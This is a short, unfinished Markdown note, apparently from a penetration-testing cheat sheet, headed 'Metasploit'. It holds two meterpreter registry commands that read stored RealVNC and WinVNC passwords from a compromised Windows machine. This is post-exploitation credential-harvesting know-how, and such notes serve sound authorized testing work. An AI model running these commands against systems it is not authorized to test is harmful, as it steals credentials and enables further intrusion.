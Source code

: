 # Metasploit

TODO: Fill this info

- RealVNC

```
meterpreter > reg [-r <target_IP>] enumkey -k HKCU\\Software\ORL\\WinVNC3\\Password [-w <64>]

meterpreter > reg [-r <target_IP>] queryval -k HKLM\SOFTWARE\RealVNC\WinVNC4 -v password [-w <64>]
```